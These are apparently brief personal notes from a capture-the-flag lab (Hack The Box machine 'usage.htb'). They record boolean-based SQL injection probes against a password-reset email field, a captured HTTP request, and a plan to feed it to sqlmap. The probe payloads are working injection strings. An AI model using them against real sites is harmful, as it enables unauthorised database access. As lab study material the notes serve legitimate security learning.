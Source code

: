 
created account
logged in
checked pages
logged out

![[Pasted image 20240426001639.png|700]]

test@test.test'                          server error = sql injection
test@test.test' and 'a'='a          success
test@test.test' and @@version='a      success, would have failed for some sql versions
test@test.test

![[Pasted image 20240426010352.png]]
if you change the last one to b you get a fail


reset password page - sql injection
```http
POST /forget-password HTTP/1.1
Host: usage.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://usage.htb
Connection: close
Referer: http://usage.htb/forget-password
Cookie: XSRF-TOKEN=eyJpdiI6IlpIaWVFR3pTRDFWNEljUnV6UlNLbFE9PSIsInZhbHVlIjoibHRQNkh2bzJFMHRma1g5RzhnYVZsU0NlZndJYmwveUFIbGpGSlpaZzNSRVRrTzV1K21tOUkvd1Nhb3lzOWsvMWhjZ2dKa09mSGZpYXV3Mytwak9CK2w5b3VhRkJjdVB6aVNHSmExSGt1TTVxZWhRTHoyOUcwa291b1I1Y3ZwemkiLCJtYWMiOiI2NmRhYzViNjI1ZmQ3NWNiMTc2ODJlOGEyOTViNjBiZWE5NjhmMjEwOTgzOWRlNTE2NWUxM2I4ODgxNDFhNmQ1IiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IlRQdWVSbTFsd1JCYWEvb2llSFhSM1E9PSIsInZhbHVlIjoiQVc4NW1NbUVjOW54QXNiODhhd2JGTUdlVnhLZ2J6ZW0wRXBpd1FqajV3enJVcHlPUnpna1hJaVpJVllTMmZqSDd3NkFwYjYxZVdNTTU4VW5WZm9qWW1aY2ZaSjhWNWNpNkZnMU8vdHdjTUdTVEVJcW4wK3ovTm1IdE1TS0RUVTAiLCJtYWMiOiIzMjcxZDM1YmNmMjFlMWE0YjBlMTVhYzM2ZWJkNGRjODEzNzgxYjNjODdmOTIzN2E5MzI4NTZkNjcxYzEyY2RmIiwidGFnIjoiIn0%3D
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1

_token=tvzDHT90bHURVbNB3X94WeliILj5EYxGZkbJEw30&email=test%40test.test
```

saving as request.txt
sending to sqlmap